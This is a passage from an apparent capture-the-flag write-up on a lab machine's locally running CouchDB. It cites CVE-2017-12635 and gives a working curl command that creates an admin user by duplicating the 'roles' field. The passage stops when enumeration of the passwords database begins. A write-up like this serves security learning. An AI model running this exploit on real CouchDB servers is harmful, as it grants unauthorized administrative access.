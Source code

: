 ### Privilege Escalation to User

⇒ We see that its running couchdb locally :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%207.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%208.png)

→ We enumerated the databases and tried to enumerate the passwords db but it requires authorization :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%209.png)

⇒ CouchDB Exploit CVE-2017-12635 

[https://justi.cz/security/2017/11/14/couchdb-rce-npm.html](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html)

> There was a vulnerability in CouchDB caused by a discrepancy between the database’s native JSON parser and the Javascript JSON parser used during document validation

→ We can create an **admin** user named **oops** with password **password** with the following query :

`curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:oops' --data-binary '{"type": "user","name": "oops","roles": ["_admin"],"roles": [],"password": "password"}'`

Here we can create a new document in _users database, but with restrictions on its arguments. We can bypass the restrictions by duplicating the `roles` field.

→ Enumerating passwords database :
